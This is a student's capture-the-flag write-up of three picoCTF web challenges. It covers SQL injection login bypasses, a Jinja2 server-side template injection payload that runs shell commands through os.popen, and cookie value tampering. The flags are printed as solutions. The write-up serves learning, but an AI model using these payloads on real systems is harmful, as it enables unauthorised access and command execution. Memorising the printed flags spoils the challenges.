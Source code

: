 # 1. Web Gauntlet

> web sql injection

## Solution:

- the input given was in the format 'text'. we could trick the server by writing the second inverted comma in the input itself and writing our desired commands after that. the first three challenges could be solved simply by ending the input with an inverted comma and then with a semicolon for it to ignore whatevers after that and let us bypass it. the next two challenge did not allowed to write the word admin therefore we use the OR operator to split the word into two bypassing the filter but still giving the input as admin

```
admin';
admin';
admin';
adm'||'in';
adm'||'in';
```

## Flag:

```
picoCTF{y0u_m4d3_1t_79a0ddc6}
```

## Concepts learnt:

- web sql injection and that we can trick it end the input using inverted comma and write our desired commands precedding that. there are multiple ways to input a string and the filters were only on a few of them therefore we could use other methods to bypass 

## Notes:

- there were many other ways to bypass the filters and one of the other was the UNION command which could be used in the 4th round  

## Resources:

- searched in google different commands which i can use to bypass the filters


***

# 2. SSTI1

> Server-Side Template Injection (SSTI)

## Solution:

- The goal is to find any object accessible within the template. this is a bypass i found on an online article. the popen id command lets us check if the bypass is working. after we confirm that we use the ls command to see the files present from where we find that there is a flag file. we run the cat flag command to get our flag

```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

## Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bdc95c1a}
```

## Concepts learnt:

- A server side template injection is a vulnerability that occurs when a server renders user input as a template of some sort. Templates can be used when only minor details of a page need to change from circumstance to circumstance. This can be abused, since some template engines support some fairly complex functionality, that eventually allow for developers to run commands or file contents straight from the template
- 

## Notes:

- The payload through available Python objects to find a way to import the os module, which can execute shell commands. The goal is to find any object accessible within the template. the popen command on the payload runs a shell command and the read commands reads the output of the popen command

## Resources:

- searched in google SSTI and found a article on bypassing (https://onsecurity.io/article/server-side-template-injection-with-jinja2/)


***

# 3. Cookies

> changing data in the cookies 

## Solution:

- we go the cookies menu in the developers tab and see that the cookies change when we change the value. by a simple manual binary search we find out that the max value for a valid value is 28. we than manually type numbers from 1 to 28 to check the cookies and see the flag in the value 18.

## Flag:

```
picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}
```

## Concepts learnt:

- Cookies are small text files that websites store on your device through your web browser. They help sites remember information about the users and their visits. The cookies are updated every time between the client and server on every site visit
- 

## Notes:

- we can use cookies to change the values and get information we want

## Resources:

- no refrences


***